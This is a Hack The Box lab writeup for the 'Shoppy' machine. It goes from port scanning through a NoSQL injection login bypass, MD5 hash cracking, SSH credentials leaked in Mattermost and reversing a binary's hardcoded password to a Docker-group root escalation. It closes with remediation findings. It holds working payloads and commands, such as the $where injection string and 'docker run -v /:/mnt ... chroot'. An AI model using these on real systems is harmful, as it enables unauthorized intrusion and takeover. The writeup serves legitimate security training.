





# Shoppy — Hack The Box Writeup

| Property       | Value                                                                                                                                                 |
| -------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Machine**    | Shoppy                                                                                                                                                |
| **OS**         | Linux (Debian 11 Bullseye)                                                                                                                            |
| **IP**         | 10.129.227.233                                                                                                                                        |
| **Domain**     | shoppy.htb, mattermost.shoppy.htb                                                                                                                     |
| **Difficulty** | Easy                                                                                                                                                  |
| **Author**     | kalipiotr                                                                                                                                             |
| **Tags**       | NoSQL Injection, MongoDB, Authentication Bypass, Subdomain Fuzzing, Mattermost, MD5 Cracking, Reverse Engineering, C++, Sudo Abuse, Docker Group LPE  |

---

## Summary

Shoppy is an Easy-difficulty Linux machine running Debian 11 that hosts an e-commerce beta portal on Nginx/Node.js backed by MongoDB, alongside an internal Mattermost collaboration platform and a Prometheus metrics exporter. Reconnaissance begins with full-port TCP scanning, identifying an HTTP service on port 80 and an unauthenticated Golang Prometheus telemetry endpoint on port 9093. Inspection of the telemetry data discloses internal runtime metrics for the Mattermost Playbooks plugin, providing early tactical intelligence regarding the target's internal application stack. Web enumeration on the main domain (`shoppy.htb`) uncovers an administrative login portal vulnerable to NoSQL injection (`$where` / JavaScript logic bypass). Bypassing authentication grants access to an admin search function, which is leveraged to perform blind username enumeration and exfiltrate MD5 password hashes from the underlying MongoDB database. Cracking the hash for the local user `josh` yields plaintext credentials.

Initial access is achieved by coupling these credentials with targeted virtual host fuzzing. Armed with the earlier Prometheus telemetry finding, fuzzing with an expanded subdomain inventory reveals the internal host `mattermost.shoppy.htb`. Authenticating to Mattermost as `josh` exposes private communication channels where an employee shared cleartext SSH credentials for user `jaeger`. Logging in via SSH establishes user access. Privilege escalation proceeds in two distinct stages: first, `jaeger` has sudo permissions to execute a custom C++ password manager binary as user `deploy`. Reverse engineering the binary in Ghidra reveals a hardcoded master password (`Sample`), which unlocks cleartext deployment credentials. Finally, inspecting the `deploy` user's group privileges reveals membership in the local `docker` group. Abusing access to the Docker daemon socket by spinning up an interactive container with the host root filesystem mounted grants immediate root-level access and full system compromise.

---

## 1. Reconnaissance

### 1.1 Port Scan

An initial full TCP port scan was executed using Nmap:

```bash
nmap -Pn -sC -sV -p- -T4 -v -oN nmap.txt 10.129.227.233
```

```
Nmap scan report for 10.129.227.233
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shoppy.htb
9093/tcp open  http    Golang net/http server
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-title: Site doesn't have a title (text/plain; version=0.0.4; charset=utf-8).
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 20 Nov 2026 09:23:37 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
```

| Port     | State | Service | Version / Notes                                        |
| :------- | :---- | :------ | :----------------------------------------------------- |
| 22/tcp   | open  | SSH     | OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)          |
| 80/tcp   | open  | HTTP    | Nginx 1.23.1 (redirects to `http://shoppy.htb`)        |
| 9093/tcp | open  | HTTP    | Golang net/http server (Prometheus Metrics Exporter)   |

---

### 1.2 Web & Service Enumeration

#### HTTP — Port 80
Sending an initial HTTP request to the root web server confirms an HTTP 301 redirect to the domain `shoppy.htb`:

```bash
curl -I 10.129.227.233
```

```http
HTTP/1.1 301 Moved Permanently
Server: nginx/1.23.1
Date: Fri, 20 Nov 2026 09:23:34 GMT
Content-Type: text/html
Content-Length: 169
Connection: keep-alive
Location: http://shoppy.htb
```

The domain was appended to the local hosts file:

```bash
echo "10.129.227.233 shoppy.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://shoppy.htb` displays a landing page indicating an upcoming beta release of an e-commerce platform:



A directory search was performed against `http://shoppy.htb` using `ffuf` with `/usr/share/wordlists/dirb/big.txt`:

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ -t 20 -ic
```

```
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 45ms]
Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 28ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 40ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 32ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 27ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 29ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 35ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 27ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 29ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 28ms]
```

The scan identifies an administrative login portal at `/login` and a restricted management area at `/admin`.

---

#### Telemetry & Metrics Analysis — Port 9093
Directly querying port 9093 confirms the service is serving raw Prometheus metrics formatted in plain text:

```bash
curl -s http://10.129.227.233:9093/
```

Filtering through the metric definitions reveals specific application signatures:

```text
# HELP playbooks_plugin_system_playbook_instance_info Instance information for Playbook.
# TYPE playbooks_plugin_system_playbook_instance_info gauge
playbooks_plugin_system_playbook_instance_info{Version="1.29.1"} 1
# HELP playbooks_plugin_process_cpu_seconds_total Total user and system CPU time spent in seconds.
# TYPE playbooks_plugin_process_cpu_seconds_total counter
playbooks_plugin_process_cpu_seconds_total 0.18
```

> **Key Observation:**  
> The metrics explicitly identify **Mattermost Playbooks Plugin v1.29.1** running under a Go runtime. Mattermost is a self-hosted team communication platform. Because port 80 only hosts the public store countdown, Mattermost must be hosted either on an unlinked port or routed via an internal Virtual Host (vhost). This finding establishes that subdomain enumeration specifically targeting Mattermost or team communication assets is a required reconnaissance step.

---

## 2. Initial Access — NoSQL Injection, VHost Enumeration, and Chat Credential Harvesting

### Attack Theory: NoSQL Injection in Document Stores

Modern web applications utilizing Node.js (Express framework) and MongoDB often depart from SQL relational queries in favor of BSON/JSON query objects or server-side JavaScript evaluation functions (such as MongoDB's `$where` operator).

When developers construct database lookups by concatenating untrusted user input directly into `$where` query strings:

```javascript
// Vulnerable query pattern
db.collection('users').find({ $where: "this.username == '" + req.body.username + "' && this.password == '" + req.body.password + "'" });
```

The server passes the string directly to the internal V8 JavaScript engine within MongoDB. Standard SQL comment sequences (`-- -` or `#`) fail to execute because JavaScript parses them as syntax errors or token mismatches. However, injecting JavaScript boolean logic allows an attacker to manipulate the execution flow:

```javascript
// Injected username: admin' || '1'=='1
this.username == 'admin' || '1'=='1' && this.password == '...'
```

Because the logical OR operator (`||`) has defined precedence and `'1'=='1'` evaluates to `true`, the condition satisfies the query criteria, bypassing password verification entirely.

---

### Step-by-Step Exploitation

#### Step 1: Authentication Bypass via NoSQL Injection
Navigating to `http://shoppy.htb/login` reveals the administrative sign-in portal:


Standard credentials (`admin:admin`) trigger an error redirect:
```text
Found. Redirecting to /login?error=WrongCredentials
```

Submitting classic SQL injection syntax (`admin' or 1=1-- -`) results in syntax errors or unhandled exceptions. However, injecting JavaScript logic into the `username` field succeeds:

```http
POST /login HTTP/1.1
Host: shoppy.htb
Content-Type: application/x-www-form-urlencoded

username=admin'+||+'1'=='1&password=anything
```

The application returns an HTTP 302 redirect and issues an authenticated session cookie:

```http
HTTP/1.1 302 Found
Server: nginx/1.23.1
Set-Cookie: connect.sid=s%3AaUeFhobNDVFsbCoWeYstQHVajYC6leSg.cqBGzcEW48o%2BYICqcb61JtXrd3VwDSohdkIyJ8TF7KA; Path=/; HttpOnly
Location: /admin
```

With the `connect.sid` cookie set in the browser, the administrative panel at `/admin` becomes accessible:



---

#### Step 2: Database Exfiltration & User Hash Extraction
The admin portal exposes a user search feature at `/admin/search-users`:



Searching for the `admin` user returns the user object directly from MongoDB in JSON format:

```json
[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"}]
```

The 24-character hexadecimal `_id` field (`62db0e93d6d6a999a66ee67a`) definitively confirms a MongoDB `ObjectId` structure. The password field contains a 32-character hexadecimal MD5 hash: `23c6877d9e2b564ef8b32c3a23de27b2`.

> **Dead End Analysis — Admin Hash:**  
> Attempting to crack the `admin` MD5 hash against `rockyou.txt` using Hashcat mode 0 yielded no matches:
> `hashcat -m 0 admin.hash /usr/share/wordlists/rockyou.txt`

> The hash was either generated with a complex, high-entropy password or custom salting. The vector was abandoned in favor of enumerating additional application accounts.

Testing the user search feature reveals differential responses:
- Invalid user: Returns `No results for your search`.
- Valid user: Displays a `Download export` button.

Leveraging this oracle, username enumeration was automated using `ffuf`:

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt \
     -u 'http://shoppy.htb/admin/search-users?username=FUZZ' \
     -b 'connect.sid=s%3A70_YoSQiVmjt32B9yTLffHKXfXJF41Eo.tZ6WuG3KdfjR5aXDZ%2FHAB0F2RJu3dKc51a0X9NXNFrE' \
     -mr 'Download' -t 20
```

The scan identified two valid user accounts:
- `admin`
- `josh`

Querying the search endpoint for `josh` exfiltrates his corresponding record:

```json
[{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]
```

Cracking the recovered hash with Hashcat in raw MD5 mode (`-m 0`):

```bash
hashcat -m 0 '6ebcea65320589ca4f2f1ce039975995' /usr/share/wordlists/rockyou.txt
```

```text
6ebcea65320589ca4f2f1ce039975995:remembermethisway
```

The recovered plaintext credentials are:
`josh` : `remembermethisway`

> **Dead End Analysis — Direct SSH Access:**  
> An immediate attempt to log into SSH using `josh:remembermethisway` failed:
> ```bash
> ssh josh@10.129.227.233
> # josh@10.129.227.233: Permission denied (publickey,password).
> ```
> `josh` does not have interactive SSH privileges or a local system shell on the host.

---

#### Step 3: Targeted Subdomain Fuzzing
Initial virtual host fuzzing using common  wordlist (`subdomains-top1million-110000.txt`) returned no entries .

Recalling the telemetry disclosure on port 9093 regarding **Mattermost Playbooks**, a broader wordlist tailored for web assets (`bug-bounty-program-subdomains-trickest-inventory.txt`) was deployed:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt \
     -u http://shoppy.htb \
     -H 'Host: FUZZ.shoppy.htb' \
     -t 20 -ic -fs 169
```

```text
mattermost              [Status: 200, Size: 3122, Words: 384, Lines: 31, Duration: 35ms]
```

The internal virtual host `mattermost.shoppy.htb` was successfully discovered. The host was added to `/etc/hosts`:

```bash
echo "10.129.227.233 mattermost.shoppy.htb" | sudo tee -a /etc/hosts
```

---

#### Step 4: Mattermost Credential Harvesting & SSH Initial Shell
Navigating to `http://mattermost.shoppy.htb` presents the corporate Mattermost login interface. Authenticating with Josh's credentials (`josh:remembermethisway`) grants full access to the workspace:


Reviewing team chat communications in the development channels exposes an internal discussion where system credentials were leaked in cleartext:



The message reveals credentials for system user `jaeger`:
`jaeger` : `Sh0ppyBest@pp!`

Using these credentials, an authenticated SSH session was established:

```bash
ssh jaeger@10.129.227.233
```

```text
jaeger@shoppy:~$ id
uid=1000(jaeger) gid=1000(jaeger) groups=1000(jaeger)
jaeger@shoppy:~$ cat user.txt
c523c23c41b0a752a2347cf3749351ff
```

**🚩 User flag obtained: `c523c23c41b0a752a2347cf3749351ff`**

---

## 3. Privilege Escalation — Binary Reversing to Docker Group Abuse

### 3.1 Enumeration & Sudo Privileges

Privilege enumeration on the target host began by inspecting the user's sudo privileges:

```bash
sudo -l
```

```text
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

`jaeger` is permitted to execute `/home/deploy/password-manager` as the `deploy` user without specifying deploy's password. Executing the program prompts for a master password:

```bash
sudo -u deploy /home/deploy/password-manager
```

```text
Welcome to Josh password manager!
Please enter your master password: test
Access denied! This incident will be reported !
```

---

### 3.2 Reverse Engineering `password-manager`

To inspect the authentication logic, the binary was copied to `/tmp` and transferred to the attacker's machine:

```bash
# On target
jaeger@shoppy:/tmp$ python3 -m http.server 1234
```

```bash
# On attacking host
wget http://10.129.227.233:1234/password-manager
chmod +x password-manager
```

Analyzing the binary in **Ghidra** yields the following decompiled C++ routine in `main()`:

```c
bool main(void)
{
  int iVar1;
  ostream *poVar2;
  string local_68 [32];
  string local_48 [47];
  allocator local_19 [9];
  
  poVar2 = std::operator<<((ostream *)std::cout,"Welcome to Josh password manager!");
  std::ostream::operator<<(poVar2,std::endl<>);
  std::operator<<((ostream *)std::cout,"Please enter your master password: ");
  std::__cxx11::string::string(local_48);
  std::operator>>((istream *)std::cin,local_48);
  std::allocator<char>::allocator();
  std::__cxx11::string::string(local_68,"",local_19);
  std::allocator<char>::~allocator((allocator<char> *)local_19);
  
  std::__cxx11::string::operator+=(local_68,"S");
  std::__cxx11::string::operator+=(local_68,"a");
  std::__cxx11::string::operator+=(local_68,"m");
  std::__cxx11::string::operator+=(local_68,"p");
  std::__cxx11::string::operator+=(local_68,"l");
  std::__cxx11::string::operator+=(local_68,"e");
  
  iVar1 = std::__cxx11::string::compare(local_48);
  if (iVar1 != 0) {
    poVar2 = std::operator<<((ostream *)std::cout,"Access denied! This incident will be reported !");
    std::ostream::operator<<(poVar2,std::endl<>);
  }
  else {
    poVar2 = std::operator<<((ostream *)std::cout,"Access granted! Here is creds !");
    std::ostream::operator<<(poVar2,std::endl<>);
    system("cat /home/deploy/creds.txt");
  }
  std::__cxx11::string::~string(local_68);
  std::__cxx11::string::~string(local_48);
  return iVar1 != 0;
}
```

#### Binary Analysis Breakdown:
1. The program allocates a `std::string` (`local_68`) and appends individual characters: `'S'`, `'a'`, `'m'`, `'p'`, `'l'`, `'e'`, constructing the string `"Sample"`.
2. The user input stored in `local_48` is compared against `"Sample"` using `std::string::compare()`.
3. If the input matches, `system("cat /home/deploy/creds.txt")` is called, printing deployment credentials.

Executing the binary via sudo with the recovered master password:

```bash
sudo -u deploy /home/deploy/password-manager
```

```text
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

---

### 3.3 Lateral Movement to `deploy`

With the deployment password recovered, the user context was switched to `deploy`:

```bash
su deploy
# Password: Deploying@pp!
```

```bash
deploy@shoppy:~$ id
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

The user `deploy` belongs to the `docker` supplementary group (`gid=998`).

---

### 3.4 Root Privilege Escalation — Docker Socket Group Abuse

#### Theoretical Breakdown
In Linux systems, membership in the `docker` group grants full read and write access to the Docker UNIX control socket (`/var/run/docker.sock`). Because the Docker daemon (`dockerd`) executes with root privileges, any user capable of communicating with the daemon can instruct it to spawn containers with arbitrary host filesystem volume mounts (`-v /:/mnt`). 

Within the container, the host's root filesystem is mounted into the container's directory tree. Using container execution or chrooting into the mounted volume gives the container process direct, uninhibited read/write control over the host operating system, effectively bypassing all local OS-level access controls.

#### Step-by-Step Exploitation
Checking for locally available Docker container images:

```bash
docker images -a
```

```text
REPOSITORY   TAG       IMAGE ID       CREATED       SIZE
alpine       latest    d7d3d98c851f   4 years ago   5.53MB
```

An `alpine:latest` image is pre-installed. Spawning a container that mounts the host root directory (`/`) to `/mnt`:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Or spawning an interactive shell with the mounted volume:

```bash
docker run -v /:/mnt -it alpine sh
```

Inside the Alpine container, navigating to the host's `/root` directory grants access to the root flag:

```text
/ # ls -la /mnt/root
total 36
drwx------  6 root root 4096 Nov 20 11:22 .
drwxr-xr-x 18 root root 4096 Nov 20 11:22 ..
-rw-------  1 root root 1243 Nov 20 11:22 .bash_history
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-------  1 root root   33 Nov 20 11:22 root.txt

/ # cat /mnt/root/root.txt
3cf873e2f960380b20c186255a9b779f
```

**🚩 Root flag obtained: `3cf873e2f960380b20c186255a9b779f`**

---

## 4. Attack Path Summary



---

## 5. Findings & Recommendations

### Finding 1 — NoSQL Injection Authentication Bypass & User Enumeration

| Attribute       | Detail                                                                                                                                                                                                  |
| :-------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Severity**    | 🟠 High                                                                                                                                                                                                 |
| **MITRE**       | T1190 — Exploit Public-Facing Application                                                                                                                                                               |
| **CWE**         | CWE-943: Improper Neutralization of Special Elements in Data Query Logic                                                                                                                                |
| **Description** | The authentication portal at `/login` and the search interface at `/admin/search-users` dynamically interpolate unvalidated user input into MongoDB queries, permitting arbitrary JavaScript injection. |

**Recommendations:**
- Refactor all database queries to utilize parameterized query operators or typed Object Document Mappers (ODMs) such as Mongoose with strict schema definitions.
- Avoid using `$where`, `mapReduce`, or raw JavaScript evaluation inside database queries.
- Implement strict input validation, type checking, and schema validation on all incoming request bodies before database operations.
- Ensure authentication logic relies on constant-time, cryptographically secure password verification algorithms (e.g., Argon2id or bcrypt).

---

### Finding 2 — Unsecured Cleartext Credentials in Corporate Chat

| Attribute       | Detail                                                                                                                                                                                                 |
| :-------------- | :----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**    | 🟡 Medium                                                                                                                                                                                              |
| **MITRE**       | T1552.001 — Unsecured Credentials: Credentials in Files / Communications                                                                                                                               |
| **Description** | Internal Mattermost communication channels contained cleartext system credentials for the user account `jaeger`, allowing an attacker with valid application credentials to pivot into the OS via SSH. |

**Recommendations:**
- Enforce strict policies and automated DLP (Data Loss Prevention) scanning rules across chat and collaboration platforms to detect and block secret sharing.
- Mandate SSH key-based authentication with hardware tokens (FIDO2) or passphrase protection, disabling password-based SSH authentication (`PasswordAuthentication no`).
- Immediately rotate all compromised credentials across the environment.

---

### Finding 3 — Local Privilege Escalation via Docker Group Membership

| Attribute       | Detail                                                                                                                                                                                            |
| :-------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **Severity**    | 🟠 High                                                                                                                                                                                           |
| **MITRE**       | T1068 — Exploitation for Privilege Escalation                                                                                                                                                    |
| **Description** | The `deploy` account is a member of the local `docker` group. This configuration allows unrestricted interaction with the Docker socket, enabling root filesystem mounts and host takeover. |

**Recommendations:**
- Remove non-root users from the `docker` group unless strictly required. Treat access to the Docker daemon socket as root equivalent.
- Migrate to Rootless Docker or Podman, which operate within unprivileged user namespaces without requiring root privileges or socket access.
- Implement Docker daemon authorization plugins (AuthZ) to restrict unauthorized volume mounting of sensitive host paths such as `/`, `/etc`, or `/root`.

---

### Finding 4 — Weak Password Hashing & Inadequate Password Complexity

| Attribute       | Detail                                                                                                                                |
| :-------------- | :------------------------------------------------------------------------------------------------------------------------------------ |
| **Severity**    | 🟡 Medium                                                                                                                             |
| **MITRE**       | T1110.002 — Brute Force: Password Cracking                                                                                            |
| **Description** | User passwords within MongoDB were stored as un-salted MD5 hashes, allowing offline cracking using standard wordlists within seconds. |

**Recommendations:**
- Deprecate MD5 and SHA-1 for password storage immediately.
- Transition to modern memory-hard password hashing algorithms such as Argon2id or bcrypt (with a minimum work factor of 12).
- Enforce strict password complexity and length requirements across all corporate platforms to resist dictionary attacks.

---

### Finding 5 — Hardcoded Credentials in Compiled Application Binary

| Attribute       | Detail                                                                                                                                                                                  |
| :-------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**    | 🟡 Medium                                                                                                                                                                               |
| **MITRE**       | T1552.001 — Unsecured Credentials: Credentials in Files                                                                                                                                 |
| **Description** | The `/home/deploy/password-manager` binary assembled and verified a hardcoded master password (`Sample`) in memory, permitting anyone with execution access to recover deploy credentials. |

**Recommendations:**
- Eliminate hardcoded secrets from compiled code and source repositories.
- Use centralized enterprise secret management solutions (e.g., HashiCorp Vault, AWS Secrets Manager) with role-based access control and short-lived tokens.
- Review and audit custom sudo entries; avoid allowing users to run custom binaries with elevated privileges unless strictly validated and signed.

---

### Finding 6 — Information Disclosure via Unauthenticated Telemetry Endpoint

| Attribute       | Detail                                                                                                                                                                                        |
| :-------------- | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**    | 🔵 Low                                                                                                                                                                                        |
| **MITRE**       | T1592 — Gather Victim Host Information                                                                                                                                                        |
| **Description** | Port 9093 exposed raw Prometheus metrics without authentication, revealing internal application plugins, Go runtime versions, and software components (Mattermost Playbooks).                 |

**Recommendations:**
- Restrict access to telemetry, metrics, and debugging endpoints (`/metrics`, port 9093) to internal monitoring subnets or localhost only.
- Implement mutual TLS (mTLS) or reverse proxy authentication for Prometheus scrapers.
- Audit network boundary firewalls to ensure non-public service ports are blocked from external ingress.

---

## 6. Tools Used

| Tool                 | Purpose                                                                               |
| :------------------- | :------------------------------------------------------------------------------------ |
| **Nmap**             | Host discovery, comprehensive TCP port scanning, and service version detection        |
| **cURL**             | HTTP banner grabbing, header analysis, and querying the telemetry endpoint           |
| **ffuf**             | Web directory discovery and targeted virtual host / subdomain fuzzing                |
| **Burp Suite**       | Intercepting HTTP requests, testing NoSQL injection payloads, and cookie inspection   |
| **Hashcat**          | Offline GPU/CPU password cracking of exfiltrated MD5 password hashes (Mode 0)        |
| **Ghidra**           | Static reverse engineering and decompilation of the custom C++ password manager binary |
| **Python 3**         | Hosting a lightweight HTTP staging server to transfer binaries                        |
| **OpenSSH**          | Establishing authenticated remote shell sessions as user `jaeger`                    |
| **Docker Engine**    | Executing privileged container escapes via host filesystem mounting                  |

---

## 7. Lessons Learned

1. **Telemetry endpoints provide invaluable reconnaissance signals** — When a full port scan reveals high-numbered non-standard ports hosting Prometheus or Go HTTP servers, inspecting metric names can disclose otherwise hidden infrastructure. In this case, Prometheus metrics on port 9093 revealed Mattermost long before any virtual host was discovered.
2. **Context-driven wordlist selection is critical** — Generic subdomain wordlists often fail against specific application deployments. Recognizing that Mattermost was active prompted the switch to a comprehensive inventory wordlist (`bug-bounty-program-subdomains-trickest-inventory.txt`), which immediately surfaced the `mattermost.shoppy.htb` virtual host.
3. **NoSQL injections are syntax-sensitive** — Modern developers often believe NoSQL databases are inherently immune to injection attacks. Understanding how Node.js and MongoDB evaluate JavaScript within `$where` queries is essential for crafting payloads (`admin' || '1'=='1`) that bypass authentication when standard SQL syntax fails.
4. **The Docker group is root by design** — Assigning users to the `docker` group without understanding the underlying security architecture is a direct path to host takeover. Because the Docker daemon runs with root privileges, access to `/var/run/docker.sock` must always be treated as full administrative control.

---

## 8. References

- [OWASP — NoSQL Injection](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.6-Testing_for_NoSQL_Injection)
- [HackTricks — NoSQL Injection](https://book.hacktricks.wiki/en/pentesting-web/nosql-injection.html)
- [GTFOBins — Docker Privilege Escalation](https://gtfobins.github.io/gtfobins/docker/)
- [Docker Documentation — Daemon Attack Surface](https://docs.docker.com/engine/security/#docker-daemon-attack-surface)
- [MITRE ATT&CK — T1190 (Exploit Public-Facing Application)](https://attack.mitre.org/techniques/T1190/)
- [MITRE ATT&CK — T1068 (Exploitation for Privilege Escalation)](https://attack.mitre.org/techniques/T1068/)
